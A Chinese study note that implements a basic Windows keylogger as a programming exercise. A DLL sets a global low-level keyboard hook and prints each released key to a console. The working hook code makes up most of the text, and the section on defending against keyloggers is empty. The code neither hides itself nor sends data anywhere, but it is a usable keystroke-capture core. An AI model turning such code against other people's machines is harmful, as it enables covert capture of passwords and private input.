


教程这一章没给具体的实现，这里在Chapter21学习的基础上，试着实现一个键盘记录器。


# 键盘记录器实现

这里有个技术问题：记录下的敲击键（在`KeyHook.dll`中捕获的）（可以用wParam）怎么打印出来（在HookMain.exe中）？

第一种：记录在本地文件。这种实现比较简单。

第二种：与HookMain.exe进程通信。这种可以学到更多Windows编程知识。


先实现第二种：

## 通信实现键盘记录

## HookMain.cpp:

```c
#include<iostream>
#include<Windows.h>

#define LOAD_DLL "KeyHook.dll"
typedef void(*func)(); // 函数指针
signed main() {
	HMODULE hDll = NULL;
	func HookStart = NULL;
	func HookStop = NULL;
	char ch = 0;

	hDll = LoadLibraryA(LOAD_DLL);
	HookStart = (func)GetProcAddress(hDll, "HookStart");
	HookStop = (func)GetProcAddress(hDll, "HookStop");
	HookStart();
	HookStop();
	FreeLibrary(hDll);
	return 0;
}
```


## KeyHook.cpp

要注意使用`WH_KEYBOARD_LL`！

```c
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include<windows.h>
#include<stdio.h>
#include<iostream>
#include<conio.h>
using namespace std;

HINSTANCE hInstance = NULL;
HHOOK hHook = NULL;
HWND hWnd = NULL;

BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved
)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH: // 进程创建时调用
		hInstance = hModule;
		break;
	case DLL_PROCESS_DETACH: // 进程结束时调用
		break;
	}
	return TRUE;
}

LRESULT CALLBACK keyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	KBDLLHOOKSTRUCT* ks = (KBDLLHOOKSTRUCT*)lParam;

	/*
	typedef struct tagKBDLLHOOKSTRUCT {
	DWORD   vkCode;   // 按键代号
	DWORD   scanCode;  //硬件扫描代号
	DWORD   flags;  //事件类型 按下:0 抬起:128
	DWORD   time;
	ULONG_PTR dwExtraInfo;
} KBDLLHOOKSTRUCT, FAR *LPKBDLLHOOKSTRUCT, *PKBDLLHOOKSTRUCT;
	*/
	if (ks->flags == 128 || ks->flags == 129) {
		switch (ks->vkCode) {
		case 0x30: case 0x60:
			cout << "检测到按键：" << "0" << endl;
			break;
		case 0x31: case 0x61:
			cout << "检测到按键：" << "1" << endl;
			break;
		case 0x32: case 0x62:
			cout << "检测到按键：" << "2" << endl;
			break;
		case 0x33: case 0x63:
			cout << "检测到按键：" << "3" << endl;
			break;
		case 0x34: case 0x64:
			cout << "检测到按键：" << "4" << endl;
			break;
		case 0x35: case 0x65:
			cout << "检测到按键：" << "5" << endl;
			break;
		case 0x36: case 0x66:
			cout << "检测到按键：" << "6" << endl;
			break;
		case 0x37: case 0x67:
			cout << "检测到按键：" << "7" << endl;
			break;
		case 0x38: case 0x68:
			cout << "检测到按键：" << "8" << endl;
			break;
		case 0x39: case 0x69:
			cout << "检测到按键：" << "9" << endl;
			break;
		case 0x41:
			cout << "检测到按键：" << "A" << endl;
			break;
		case 0x42:
			cout << "检测到按键：" << "B" << endl;
			break;
		case 0x43:
			cout << "检测到按键：" << "C" << endl;
			break;
		case 0x44:
			cout << "检测到按键：" << "D" << endl;
			break;
		case 0x45:
			cout << "检测到按键：" << "E" << endl;
			break;
		case 0x46:
			cout << "检测到按键：" << "F" << endl;
			break;
		case 0x47:
			cout << "检测到按键：" << "G" << endl;
			break;
		case 0x48:
			cout << "检测到按键：" << "H" << endl;
			break;
		case 0x49:
			cout << "检测到按键：" << "I" << endl;
			break;
		case 0x4A:
			cout << "检测到按键：" << "J" << endl;
			break;
		case 0x4B:
			cout << "检测到按键：" << "K" << endl;
			break;
		case 0x4C:
			cout << "检测到按键：" << "L" << endl;
			break;
		case 0x4D:
			cout << "检测到按键：" << "M" << endl;
			break;
		case 0x4E:
			cout << "检测到按键：" << "N" << endl;
			break;
		case 0x4F:
			cout << "检测到按键：" << "O" << endl;
			break;
		case 0x50:
			cout << "检测到按键：" << "P" << endl;
			break;
		case 0x51:
			cout << "检测到按键：" << "Q" << endl;
			break;
		case 0x52:
			cout << "检测到按键：" << "R" << endl;
			break;
		case 0x53:
			cout << "检测到按键：" << "S" << endl;
			break;
		case 0x54:
			cout << "检测到按键：" << "T" << endl;
			break;
		case 0x55:
			cout << "检测到按键：" << "U" << endl;
			break;
		case 0x56:
			cout << "检测到按键：" << "V" << endl;
			break;
		case 0x57:
			cout << "检测到按键：" << "W" << endl;
			break;
		case 0x58:
			cout << "检测到按键：" << "X" << endl;
			break;
		case 0x59:
			cout << "检测到按键：" << "Y" << endl;
			break;
		case 0x5A:
			cout << "检测到按键：" << "Z" << endl;
			break;
		case 0x6A:
			cout << "检测到按键：" << "*" << endl;
			break;
		case 0x6B:
			cout << "检测到按键：" << "+" << endl;
			break;
		case 0x6D:
			cout << "检测到按键：" << "-" << endl;
			break;
		case 0x6E:
			cout << "检测到按键：" << "." << endl;
			break;
		case 0x6F:
			cout << "检测到按键：" << "/" << endl;
			break;
		case 0x0D:
			cout << "检测到按键：" << "Enter" << endl;
			break;
		case 0xA0: case 0xA1:
			cout << "检测到按键：" << "Shift" << endl;
			break;
		case 0x08:
			cout << "检测到按键：" << "Backspace" << endl;
			break;
		case 0x20:
			cout << "检测到按键：" << "Space" << endl;
			break;
		}

		// return 1; // 直接return就不传递(也就是拦截下来)
	}
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}

#ifdef __cplusplus
extern "C" {
#endif
	__declspec(dllexport) void HookStart() {
		hHook = SetWindowsHookEx(WH_KEYBOARD_LL, keyboardProc, hInstance, 0);
		if (hHook == 0) {
			cout << "hook failed!\n";
		}
		MSG msg;
		while (1) {
			if (PeekMessageA(
				&msg,
				NULL,
				NULL,
				NULL,
				PM_REMOVE
			)) {
				TranslateMessage(&msg);
				DispatchMessageW(&msg);
			}
			else Sleep(0);
		}
	}
	__declspec(dllexport) void HookStop() {
		if (hHook) {
			UnhookWindowsHookEx(hHook);
			hHook = NULL;
		}
	}
#ifdef __cplusplus
}
#endif
```


## 效果：




# 防范恶意键盘记录器

虽然与逆向无关，但是这些还是蛮有必要的。




# 总结

多写，多练。Windows编程一定得精通才行。